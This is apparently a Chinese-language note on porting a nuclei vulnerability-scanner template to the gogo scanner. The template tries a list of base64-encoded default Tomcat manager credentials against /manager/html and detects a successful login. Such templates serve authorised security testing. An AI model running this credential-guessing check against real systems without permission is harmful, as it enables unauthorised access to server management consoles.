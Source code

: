 ```

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "Apache Tomcat"
          - "Server Information"
          - "Hostname"
        condition: and

      - type: status
        status:
          - 200
```

这是gogo中移植修改完的:
因为不支持动态的dsl, 所以需要将base64预先计算好, extractor 可以视情况保留, gogo支持extractor功能, 但是对于输出目前处理的并不是很优雅, 后续还会对此功能更新优化.

```
id: tomcat-manager-login
info:
  author: pdteam
  name: tomcat-manager-default-password
  severity: high
  tags: tomcat-manager
requests:
  - raw:
      - |
        GET /manager/html HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{auth}}
        User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0
    attack: sniper
    stop-at-first-match: true
    matchers:
      - status:
          - 200
        type: status
      - type: word
        words:
          - Apache Tomcat
    extractors:
      - type: regex
        name: cookie
        internal: true
        part: header
        regex:
          - 'JSESSIONID\..*=([a-z0-9.]+)'
    matchers-condition: and
    payloads:
      auth:
        - dG9tY2F0OnRvbWNhdA==
        - dG9tY2F0OnMzY3JldA==
        - YWRtaW46YWRtaW4=
        - b3Z3ZWJ1c3I6T3ZXKmJ1c3Ix
        - ajJkZXBsb3llcjpqMmRlcGxveWVy
        - Y3hzZGs6a2RzeGM=
        - QURNSU46QURNSU4=
        - eGFtcHA6eGFtcHA=
        - UUNDOlFMb2dpYzY2
        - YWRtaW46dG9tY2F0
```